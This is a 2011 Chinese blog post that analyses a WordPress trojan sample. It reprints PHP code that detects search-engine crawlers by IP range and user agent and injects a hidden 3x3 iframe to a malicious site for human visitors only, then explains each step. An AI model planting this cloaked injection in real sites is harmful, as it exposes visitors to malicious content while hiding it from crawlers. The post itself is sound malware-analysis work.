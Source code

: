 title: 一个 Wordpress 木马样本分析
tags:
  - php
  - wordpress
  - 安全
id: 1507
categories:
  - 建站相关
date: 2011-09-18 03:41:08
---

在[饭否看到zuola说](http://fanfou.com/statuses/JreFlCzZgyM "佐拉 fanfou")得到一个[wordpress木马脚本](http://zuola.diandian.com/post/0a3f9170-e1a0-11e0-928b-782bcb3825eb "Zuola: wordpress木马样本")，于是就点了[连接](http://zuola.diandian.com/post/0a3f9170-e1a0-11e0-928b-782bcb3825eb "Zuola Diandian")，并简单的看了看这个样本。原理比较简单，先判断访问来源是否是搜索引擎的蜘蛛或bot，再确定是否显示一个有问题iframe——木马的效力也取决于这个iframe中的内容。这一小段PHP脚本也完全可以用到其它任何PHP程序中。

将源代码做了个简单的整理如下：<!--more-->

```php
error_reporting(0);
$bot = FALSE ;
$user_agent_to_filter = array('bot','spider','spyder'... ...'mybloglog api');
$stop_ips_masks = array(
array('216.239.32.0','216.239.63.255'),
array('64.68.80.0'  ,'64.68.87.255'  ),
... ... ...
... ... ...
array('72.30.0.0','72.30.255.255'),
array('38.0.0.0','38.255.255.255')
);

$my_ip2long = sprintf('%u',ip2long($_SERVER['REMOTE_ADDR']));

foreach ( $stop_ips_masks as $IPs ) {
    $first_d=sprintf('%u',ip2long($IPs[0]));
    $second_d=sprintf('%u',ip2long($IPs[1]));
    if ($my_ip2long >= $first_d &amp;&amp; $my_ip2long <= $second_d) {
        $bot = TRUE;
        break;
    }
}

foreach ($user_agent_to_filter as $bot_sign){
    if(strpos($_SERVER['HTTP_USER_AGENT'], $bot_sign) !== false){
        $bot = true;
        break;
    }
}

if (!$bot) {
    echo '<iframe src='http://whsej........o=1' width='3' height='3'></iframe>'
}
```

### 1、环境配置与变量声明

error_reporting(0)是为了保证在任何情况下都不报错。

$bot是声音了一个flag，默认值为false，从后面的情况来看，这个是用来表明当前访问者是否是真正的浏览用户。

$user_agent_to_filter和$stop_ips_masks，前者是一维数据，存储了一大堆需要排除的浏览器user_agent，后者是个二维数据，存储了若干个ip段，[这些ip段](http://www.ipchecking.com/?ip=209.85.128.0&amp;check=Lookup "$stop_ips_masks中的ip段")经查询，大都是搜索引擎的。

### 2、访问者ip的判断

接下来，是通过ip地址和浏览器user agent来进行用户是否是普通浏览器的判断。

```php
$my_ip2long = sprintf('%u',ip2long($_SERVER['REMOTE_ADDR']));

foreach ( $stop_ips_masks as $IPs ) {
    $first_d=sprintf('%u',ip2long($IPs[0]));
    $second_d=sprintf('%u',ip2long($IPs[1]));
    if ($my_ip2long >= $first_d &amp;&amp; $my_ip2long <= $second_d) {
        $bot = TRUE;
        break;
    }
}
```

[ip2long](http://php.net/manual/en/function.ip2long.php "ip2long：将ip地址转换为int")这个函数可以将ip地址转换成一个整数，[sprintf](http://php.net/manual/en/function.sprintf.php "PHP: sprinf")('%u', xxx)将这个int转换成无符号数。

foreach在$stop_ips_masks中进行循环，取二维数据中的每一个数组，$frist_d和$second_d分别存储ip段起点ip和止点ip的无符号整数值，再用接下来的if进行判断，当前访问者ip是否在$stop_ips_masks所指定的范围内，若是，则将$bot量置为true。

### 3、访问者user agent的判断

```php
foreach ($user_agent_to_filter as $bot_sign){
    if(strpos($_SERVER['HTTP_USER_AGENT'], $bot_sign) !== false){
        $bot = true;
        break;
    }
}
```

这一部分的判断与ip判断类似，从$user_agent_to_filter中读取每一个值，再与浏览者的user agent进行对比，如果发现是机器人或者蜘蛛，则将$bot置为true。

### 4、放置iframe

if(!$bot)控制当访问者是普通浏览器时，即放置这个iframe，iframe的scr是无耻者放置乱七八糟内容的网页——chrome已经将它block了。

### 5、结论

这个脚本可以用在任何php写成的网站中。而且，这段代码其实可以隐藏得更好，而不是这样连裤衩都不穿的裸奔。